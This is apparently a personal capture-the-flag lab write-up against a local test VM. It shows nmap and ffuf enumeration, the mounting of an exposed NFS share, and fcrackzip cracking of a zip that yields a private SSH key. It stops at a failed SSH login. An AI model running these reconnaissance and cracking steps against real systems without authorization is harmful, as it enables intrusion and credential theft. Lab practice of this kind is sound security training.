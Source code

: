 
## Do scanning and enumeration using nmap

```
nmap -sS -Pn -A -p- -T4 192.168.64.6 -oN nmapdev.txt
```


Output:

```
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-07 15:18 PDT
Nmap scan report for 192.168.64.6
Host is up (0.0015s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36809/tcp6  mountd
|   100005  1,2,3      47231/tcp   mountd
|   100005  1,2,3      50980/udp   mountd
|   100005  1,2,3      60620/udp6  mountd
|   100021  1,3,4      34691/tcp6  nlockmgr
|   100021  1,3,4      40815/tcp   nlockmgr
|   100021  1,3,4      57124/udp   nlockmgr
|   100021  1,3,4      58206/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   1.54 ms 192.168.64.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.82 seconds

```

## Exploit port 8080

```
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
37319/tcp open  mountd   1-3 (RPC #100005)
40815/tcp open  nlockmgr 1-4 (RPC #100021)
43943/tcp open  mountd   1-3 (RPC #100005)
47231/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 26:8C:8C:9E:4A:EE (Unknown)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


- http://192.168.64.6:8080
		- PHP Version 7.3.27-1~deb10u1
		- Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 

Here are the valid directories as per ffuf (has return 301)

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6:8080/FUZZ -mc 200,204,301,302,307,401,403,405

dev                     [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 17ms]
                        [Status: 200, Size: 94605, Words: 4689, Lines: 1160, Duration: 69ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 25ms]
```

dev site

![[Pasted image 20240707193457.png]]
## Exploit port 80

- http://192.168.64.6
		- There is bolt cms webpage not in proper location


## Directory scanning using ffuf

#ffuf 



Here are the valid directories as per ffuf (has return 301)

```
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://192.168.64.6/FUZZ -mc 200,204,301,302,307,401,403,405

public                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 33ms]
#                       [Status: 200, Size: 3833, Words: 926, Lines: 108, Duration: 209ms]
src                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 17ms]
app                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 23ms]
vendor                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 23ms]
extensions              [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 17ms]

```


## Exploit nfs


1. Check nfs file share by using `showmount -e 192.168.64.6`
2. Make a directory to mount that nfs file share to your directory by using `mkdir /mnt/dev
3. mount the /mnt/dev directory to the nfs file share `mnt -t nfs 192.168.64.6:/srv/nfs /mnt/dev`
4. Go to the directory `cd /mnt/dev`
5. list the directory `ls`
6. unzip the file `unzip save.zip`
7. However it has password, we need to install fcrackzip `apt install fcrackzip`
8. Use fcrackzip to crack the password using the wordlist dictionary rockyou.txt
```
fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip
```
where:

- -v - verbosity
- -u - unzip
- -D - dictionary
- -p - we are using wordlistfile rockyou.txt
- save.zip - the file that we will unzip

9. After cracking, we found out that the pw is java101
10. After unzipping we unzion sa save.zip and found id_rsa file and todo.txt
11. We tried the id_rsa file in connecting using jp username but cant connect 

```
┌──(root㉿kali)-[~]
└─# showmount -e 192.168.64.6
Export list for 192.168.64.6:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16

┌──(root㉿kali)-[~]
└─# mkdir /mnt/dev 

┌──(root㉿kali)-[~]
└─# mount -t nfs 192.168.64.6:/srv/nfs /mnt/dev

┌──(root㉿kali)-[~]
└─# cd /mnt/dev 

┌──(root㉿kali)-[/mnt/dev]
└─# ls
save.zip

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip
Archive:  save.zip
[save.zip] id_rsa password: 
password incorrect--reenter: 
   skipping: id_rsa                  incorrect password
   skipping: todo.txt                incorrect password

┌──(root㉿kali)-[/mnt/dev]
└─# apt install fcrackzip

┌──(root㉿kali)-[/mnt/dev]
└─# fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt save.zip                                                                          
found file 'id_rsa', (size cp/uc   1435/  1876, flags 9, chk 2a0d)
found file 'todo.txt', (size cp/uc    138/   164, flags 9, chk 2aa1)


PASSWORD FOUND!!!!: pw == java101

┌──(root㉿kali)-[/mnt/dev]
└─# unzip save.zip 
Archive:  save.zip
[save.zip] id_rsa password: 
  inflating: id_rsa                  
  inflating: todo.txt                

┌──(root㉿kali)-[/mnt/dev]
└─# ls
id_rsa  save.zip  todo.txt

┌──(root㉿kali)-[/mnt/dev]
└─# cat todo.txt 
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome

jp

┌──(root㉿kali)-[/mnt/dev]
└─# ssh -i id_rsa jp@192.168.64.6
The authenticity of host '192.168.64.6 (192.168.64.6)' can't be established.
ED25519 key fingerprint is SHA256:NHMY4yX3pvvY0+B19v9tKZ+FdH9JOewJJKnKy2B0tW8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.64.6' (ED25519) to the list of known hosts.
jp@192.168.64.6's password: 
Permission denied, please try again.
jp@192.168.64.6's password: 

                                                                                                                                                      
┌──(root㉿kali)-[/mnt/dev]
└─# 


```
